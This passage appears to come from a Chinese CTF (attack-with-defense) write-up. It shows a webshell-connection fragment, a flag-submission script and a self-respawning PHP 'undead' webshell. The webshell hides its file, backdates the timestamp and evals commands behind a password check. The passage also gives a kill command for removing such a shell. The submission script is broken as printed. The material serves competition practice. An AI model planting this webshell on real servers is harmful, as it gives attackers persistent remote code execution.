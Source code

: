 ```
    except:
        print (url+" connect shell fail")

webshelllist.close()
flag.close()
```

`批量提交flag脚本：`

```
def submit(flag, token):
    url = "wangzhi"
    pos = `{`
        "flag":flag
        "token":token
    `}`
    print "[+] Submiting flag : [%s]" % (pos)
    response = requests.post(url,data=data)
    content = response.content
    print "[+] Content : %s " % (content)
    if failed in content:
        print "[-]failed"
        return False
    else:
        print "[+] Success!"
        return True
```

但是很可惜，在这次 **“awd”** 比赛中，并没有用上。而且在用的时候，需要进行一些修改，调试。

`种不死马`<br>
在比赛过程中，可以抢一波预留后门，得到shell，然后往服务器里面种不死马，进一步维护自己的权限，然后可以用分裂马等一些马传上去。<br>
对于不死马，GitHub上面也有好多，这里给出我自己的一个不死马。有兴趣的可以在本地尝试

```
&lt;?php
ignore_user_abort(true);
set_time_limit(0);
unlink(__FILE__);
$file = '.shell.php';
$code = '&lt;?php if(md5($_GET["passwd"])=="76a2173be6393254e72ffa4d6df1030a")`{`@eval($_REQUEST['cmd']);`}` ?&gt;';
while (1)`{`
    file_put_contents($file,$code);
    system('touch -m -d "2018-12-01 09:10:12" .shell.php');
    usleep(5000);
`}`
?&gt;
```

而对于删除不死马，首先需要找到他的进程，关掉进程之后，才能删掉，不然会一直生成，删不掉。<br>
而对于关闭进程，这里贴出自己用的命令

```
ps aux | grep www-data | awk '`{`print $2`}`' | xargs kill -9 //删除www-date用户下的所有进程
接着直接删除不死马文件
```
